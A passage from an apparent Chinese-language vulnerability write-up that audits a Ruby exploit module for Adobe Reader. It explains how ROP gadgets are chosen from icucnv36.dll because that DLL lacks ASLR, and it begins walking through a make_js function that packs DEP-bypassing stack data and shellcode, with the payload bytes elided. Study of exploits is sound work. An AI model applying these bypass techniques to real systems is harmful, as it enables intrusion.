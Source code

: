 ![ROP Flow](images/Vulnerability%20Investigation/rop.png)

>其中的 ROP Gadget 选择了 icucnv36.dll 中的指令，选择这两处地址中的指令的原因在于，如果打开 icucnv36.dll，会发现其 IMAGE_OPTIONAL_HEADER 中的 IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE 的值为 0，也就是说这个 dll 库没有开启 ASLR。事实上，在 Adobe Reader 的各个版本上，这个库应该都基于 Adobe 的某种需要而始终没有开启 ASLR。这使得该 exp 对受影响的各版本 Adobe Reader 都能够稳定且兼容地进行漏洞利用

### make_js 函数

既然 ttf 文件中的 payload 是用来跳转到真正的执行 shellcode 的 payload 上的，后者存在的位置也就只能是在 make_js 函数里了。事实上，在审计 exploit ruby 代码时就能够非常容易发现 make_js 函数里存放的大量 payload。接下来审计 make_js 函数

```ruby
    def make_js(encoded_payload)

        #* stack_data 字符串存放了利用 shellcode 所需的 payload
        # The following executes a ret2lib using icucnv36.dll
        # The effect is to bypass DEP and execute the shellcode in an indirect way
        #* stack_data 内容较长下文再审计，此处用 ... 略过
        stack_data = [
            ...
        ].pack('V*')

        var_unescape  = rand_text_alpha(rand(100) + 1)
        var_shellcode = rand_text_alpha(rand(100) + 1)

        var_start     = rand_text_alpha(rand(100) + 1)

        var_s         = 0x10000
        var_c         = rand_text_alpha(rand(100) + 1)
        var_b         = rand_text_alpha(rand(100) + 1)
        var_d         = rand_text_alpha(rand(100) + 1)
        var_3         = rand_text_alpha(rand(100) + 1)
        var_i         = rand_text_alpha(rand(100) + 1)
        var_4         = rand_text_alpha(rand(100) + 1)
```